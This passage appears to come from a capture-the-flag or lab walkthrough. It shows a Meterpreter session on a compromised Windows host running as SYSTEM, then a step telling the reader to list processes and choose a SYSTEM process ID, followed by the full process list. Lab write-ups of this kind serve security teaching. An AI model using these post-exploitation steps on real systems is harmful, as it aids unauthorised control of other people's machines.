     meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

### 7 List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

    meterpreter > ps

    Process List
    ============

     PID   PPID  Name                  Arch  Session  User                          Path
     ---   ----  ----                  ----  -------  ----                          ----
     0     0     [System Process]                                                   
     4     0     System                x64   0                                      
     416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
     432   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
     492   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
     560   552   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
     612   552   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
     620   600   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
     660   600   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
     708   612   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
     716   612   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
     724   612   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
     832   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
     900   708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
     948   708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
     1016  660   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
     1080  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
     1180  708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
     1312  708   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
     1348  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
     1412  708   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
     1432  1312  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
     1484  708   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
     1628  708   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
     1952  708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe